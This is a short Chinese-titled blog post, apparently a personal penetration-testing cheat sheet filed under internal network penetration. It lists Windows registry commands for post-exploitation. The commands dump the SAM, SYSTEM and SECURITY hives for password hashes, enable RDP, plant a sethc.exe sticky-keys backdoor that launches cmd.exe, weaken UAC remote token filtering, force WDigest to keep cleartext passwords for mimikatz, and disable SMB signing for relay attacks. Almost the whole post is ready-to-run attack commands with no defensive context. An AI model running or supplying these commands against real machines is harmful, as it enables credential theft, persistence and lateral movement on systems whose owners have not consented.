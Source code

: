 ```yaml
---
title: "Windows 常用命令"
date: 2019-07-08T00:00:00+08:00
draft: false
tags: ["windows"]
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


仅作为备份.

<!--more-->

## dump hive hash

dump system hash into .hive file.

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

## open port 3389

one command.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## sethc hijacking

shift backdoor.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

## disabled uac policy

allow remote access for other administrator users.

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

## store clearpassword in lsass

mimikatz for server 2012.

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

## disable smb signature

smb relay attack.

```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 0 /f
```